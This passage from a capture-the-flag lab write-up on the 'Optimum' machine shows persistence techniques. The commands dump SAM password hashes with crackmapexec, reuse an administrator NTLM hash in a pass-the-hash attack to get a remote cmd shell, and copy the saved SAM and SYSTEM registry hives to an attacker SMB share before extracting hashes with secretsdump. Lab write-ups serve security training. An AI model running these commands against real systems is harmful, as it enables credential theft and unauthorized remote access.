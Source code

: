 Another way to create persistence is to download with `crackmapexec` the database of password hashes for all the accounts on the system. Once I have this information I can remotely execute commands using the **Pass The Hash** attack and even get a **cmd** shell with `pth-winexe`. Another way is to generate copies of the records where the **SAM** is stored and download them to my attacking machine, then with `impacket-secretsdump` or `pwdump.py` get the password hashes and again use the **Pass The Hash** attack.

> **Attacker Machine**:

```bash
crackmapexec smb 10.129.189.113 -u 'oldboy4life' -p 'oldboy4l123$' --sam
# PassTheHash Attack
crackmapexec smb 10.129.189.113 -u 'Administrator' -H 'd90b270062e8b9f118ab8e0f733df391' -x 'whoami'    # :)
pth-winexe -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:d90b270062e8b9f118ab8e0f733df391 //10.129.189.113 cmd.exe
```

> **Victime Machine**:

```cmd
reg save HKLM\SAM sam.backup
reg save HKLM\SYSTEM system.backup
```

> **Attacker Machine**:

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

> **Victime Machine**:

```cmd
copy .\sam.backup \\10.10.14.84\smbFolder\sam
copy .\system.backup \\10.10.14.84\smbFolder\system
```

> **Attacker Machine**:

```bash
impacket-secretsdump -sam sam -system system LOCAL
/usr/share/creddump7/pwdump.py system sam
# :)
```

<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_56.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_57.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_58.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_59.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_60.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
